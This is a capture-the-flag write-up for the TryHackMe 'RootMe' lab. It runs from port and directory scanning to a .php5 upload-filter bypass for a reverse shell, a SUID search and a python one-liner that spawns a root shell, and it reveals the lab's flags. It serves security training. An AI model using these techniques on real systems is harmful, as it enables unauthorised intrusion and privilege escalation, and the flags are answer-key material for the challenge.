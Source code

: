 > Sun 3 Aug 2025
> al3xx

![[Write-ups/TryHackMe/Linux/img/s9.png|350]]
# RootMe

## 1. Reconnaissance
### TCP Scan
```bash
sudo nmap -sC -sV -T4 10.10.155.21 -oN nmap/rootMe.txt
```

**Open ports**

| port | service | version                         |
| ---- | ------- | ------------------------------- |
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Apache httpd 2.4.29 ((Ubuntu))  |

## 2. Enumeration
### 1. Web Enumeration
- Port **80** is open.
- Visiting the website initially showed nothing interesting.
- Used **Gobuster** to find hidden directories:
```bash
gobuster dir -u 10.10.155.21 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 2>/dev/null
```

result:
```TEXT
/uploads
/css
/js
/panel
```

## 3. Exploitation
- Found a **file upload vulnerability** in the `/panel` route.
- The upload blocks files ending with `.php`.
- Bypassed this by uploading files with `.php5` extension.
- After uploading the reverse shell, accessed it via the `/uploads` directory to get a shell.

## 4. Post-Exploitation
After getting shell access, searched for `user.txt` and found the user flag:
```TEXT
THM{y0u_g0t_a_sh3ll}
```
located at `/var/www/user.txt`.

Checked for SUID files with:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Found an interesting SUID file:
```bash
266770   3580 -rwsr-sr-x   1 root root 3665768 Aug 4 2020 /usr/bin/python
```

## 5. Privilege Escalation
Since `/usr/bin/python` runs as root with SUID, used it to spawn a root shell:
```bash
/usr/bin/python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
```

After gaining root, searched for `root.txt` and found the root flag:
```TEXT
THM{pr1v1l3g3_3sc4l4t10n}
```
located at `/root/root.txt`.